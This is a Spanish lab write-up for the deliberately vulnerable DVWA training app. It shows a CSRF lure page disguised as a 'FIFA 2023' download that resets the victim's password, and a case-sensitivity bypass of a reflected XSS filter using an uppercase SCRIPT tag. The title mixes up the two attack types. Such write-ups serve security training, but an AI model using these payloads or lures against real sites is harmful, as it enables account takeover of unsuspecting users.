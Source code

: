 # Reflected Cross Site

El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacante. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.

## Level: Low
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```

Una vez el usuario pincha en el enlace, la contraseña se cambia a la que se ha asignado en el código malicioso.

## Level: Medium

En este nivel DVWA introduce un control de entradas muy básico, no se puede utilizar <script> pero si que se puede utilizar <SCRIPT>. \
Esto es debido a que la función utilizada **str_replace()** para el filtrado es sensible a las mayúsculas/minúsculas, se introduce en el dialogo:
```
<SCRIPT>alert("Te pillé")</SCRIPT>
```
![Ejecuta script malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/refleceted_cross_site/asset/ejecuta_script.png)

